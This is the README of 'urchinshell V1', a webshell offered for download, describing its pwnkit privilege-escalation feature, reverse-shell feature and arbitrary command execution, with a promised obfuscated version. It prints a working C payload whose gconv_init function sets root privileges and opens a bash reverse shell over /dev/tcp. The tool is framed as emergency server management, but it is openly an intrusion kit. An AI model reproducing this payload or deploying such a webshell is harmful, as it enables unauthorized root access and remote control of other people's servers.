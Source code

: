 # urchinshell V1

![Artboard 1urchindfinal <img src="param-ninja-logo.png" width="150"/>](https://user-images.githubusercontent.com/49201347/209619868-735cfa22-8110-4c86-943a-cdd13931c3aa.png)


This webshell can be used for multi-purposed especially most if you want to manage your web server but you are in an emergency , so why not use a webshell:)

**DISCLAIMER : ILLEGAL USE OF OUR TOOLS INCLUDING THIS WEBSHELL WILL NOT HAVE US BEING HELD RESPONSIBLE AT ALL!**

![Screenshot_20220202_002639](https://user-images.githubusercontent.com/49201347/152054318-8a6bae94-48f2-4e92-a225-926e7e2baa95.png)

## How To Use

Currently has three features which are :
#### Automate-Privesc
this allows you to put in a base64 encoded string which contains the code run in poppy but with an execution of reverse-shell instead , which means when you execute it , it shall directly test and exploit pwnkit vulnerability using poppy, the payload should be something like this:
```c
#include <stdio.h>
#include <stdlib.h>

void gconv() {}

void gconv_init() {
  setuid(0);
  setgid(0);
  seteuid(0);
  setegid(0);  
  system("/usr/bin/sudo -u root /usr/bin/bash -c '/usr/bin/bash -i &>/dev/tcp/127.0.0.1/1337 <&1'");
  exit(0);
}
```
#### Reverse Shell
this is a classic one , you just put in your IP and Port and you shall definitely get shell access back to your listener if you are having trouble using the shell feature and you want to use a shell instead:

![Screenshot_20220202_001555](https://user-images.githubusercontent.com/49201347/152052883-bb57b9ef-61aa-4869-9170-84ea11120548.png)

#### Shell Exec
Allows you to execute shell commands , just by typing your command and clicking execute

![Screenshot_20220202_001938](https://user-images.githubusercontent.com/49201347/152053380-b68558ea-2778-46e9-931d-516234a74940.png)

## V2 UPDATE INFO
Version two will be updated with the following new features:

1. MYSQL Connector
2. Obfuscated Web-Shell
3. Real-Time Shell Spawn

## CONTACT US

If you wish to contribute or give a suggestion or need to contact us :

email : urchinsec@protonmail.com
discord : https://discord.gg/red66VCSEp


Artwork : [witchdoctorsec](https://github.com/witchdocsec/)
